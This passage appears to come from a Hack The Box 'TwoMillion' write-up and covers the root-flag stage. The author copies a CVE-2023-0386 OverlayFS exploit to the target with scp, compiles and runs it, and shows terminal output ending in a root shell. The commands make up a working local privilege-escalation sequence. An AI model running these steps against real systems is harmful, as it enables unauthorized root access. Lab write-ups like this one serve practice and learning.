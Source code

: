 I enumerated for information regarding the OS after I saw that mail.


## Root Flag

I downloaded the exploit locally made it to a zip file and used scp to send it to the admin.

```
┌──(kali㉿kali)-[~/Desktop/htb/twomillion]
└─$ scp cve.zip admin@2million.htb:/tmp           
admin@2million.htb's password: 
cve.zip                                                                                                100%  460KB  57.6KB/s   00:07    
```

Unzipping the file.

```
admin@2million:/tmp/CVE-2023-0386$ make all
admin@2million:/tmp/CVE-2023-0386$ ./fuse ovlcap/lower ./gc &
[1] 1764
[+] len of gc: 0x3ee0

admin@2million:/tmp/CVE-2023-0386$ ./exp
uid:1000 gid:1000
[+] mount success
[+] readdir
[+] getattr_callback
/file
total 8
drwxrwxr-x 1 root   root     4096 May 23 12:30 .
drwxr-xr-x 6 root   root     4096 May 23 12:30 ..
-rwsrwxrwx 1 nobody nogroup 16096 Jan  1  1970 file
[+] open_callback
/file
[+] read buf callback
offset 0
size 16384
path /file
[+] open_callback
/file
[+] open_callback
/file
[+] ioctl callback
path /file
cmd 0x80086601
[+] exploit success!
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

root@2million:/tmp/CVE-2023-0386# 
```

And the machine is rooted.

Thank you!! Happy Hacking :D